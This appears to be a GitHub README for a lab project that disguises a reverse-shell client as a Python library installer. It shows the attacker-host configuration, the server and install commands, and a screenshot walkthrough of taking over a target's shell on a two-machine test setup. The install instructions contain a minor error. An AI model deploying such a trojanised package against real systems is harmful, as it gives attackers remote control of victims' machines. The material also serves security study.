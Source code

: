 ![image](https://github.com/ronch11/Nevertrust/assets/71279601/ebd373db-7a59-4e33-99cd-13fc527fed79)# Nevertrust

This project Simulates a fake library of python that when the target see the installation of the packets, there is a side channel that open a connection to attacker and give him possible Shellcode attack.
## Installation

You need to install socket and tqdm libraries
```bash
pip install socket tqdm 
```

## Preparations

First, you make sure that you insert the correct IP of the attacker in the client file.
```python
SERVER_HOST = "IP_of_attacker"
SERVER_PORT = 5004
BUFFER_SIZE = 1440  # max size of messages, setting to 1440 after experimentation, MTU size
# separator string for sending 2 messages in one go
SEPARATOR = "<sep>
```

# Run
We will be use with two machine, the first one will be Parrot is for the attacker and the second, Kali Linux for the target.


```
python server.py
```
![צילום מסך 2024-01-25 065805](https://github.com/ronch11/Nevertrust/assets/71279601/bd3e7152-2010-4b24-b127-b0101115d547)

Now let's install our library on the client
```bash
python3 my_install.py 
```
![צילום מסך 2024-01-25 081905](https://github.com/ronch11/Nevertrust/assets/71279601/c0f5c945-c830-47cb-81ad-5cb2a8d004ea)

![צילום מסך 2024-01-25 082236](https://github.com/ronch11/Nevertrust/assets/71279601/33d66ea4-6800-403f-946b-b18aa26f9a2b)


Now let's check the connction between the sides

we can see that connction success
![צילום מסך 2024-01-25 082621](https://github.com/ronch11/Nevertrust/assets/71279601/f553ad0a-14e1-4f89-9a1e-71149e671a3b)


For see all targets we can use with the command list
![צילום מסך 2024-01-25 083157](https://github.com/ronch11/Nevertrust/assets/71279601/957d25c4-64be-4f98-9372-399362f8ad6a)

To choose the target we use with the command use X
X - will be the choosen index  
![צילום מסך 2024-01-25 083413](https://github.com/ronch11/Nevertrust/assets/71279601/0133d92a-2193-4101-babc-6e7699e8c95c)

Now we can see that we are in the shell of the target!
Let's cheek the IP of the target
![צילום מסך 2024-01-25 084225](https://github.com/ronch11/Nevertrust/assets/71279601/6d212c82-3fe2-42b7-a3b4-d445915f6006)

 We can see that we get the same IP address on the Parrot shell
![צילום מסך 2024-01-25 084416](https://github.com/ronch11/Nevertrust/assets/71279601/a48de220-54ae-49c7-8e5f-24dc1c82101f)

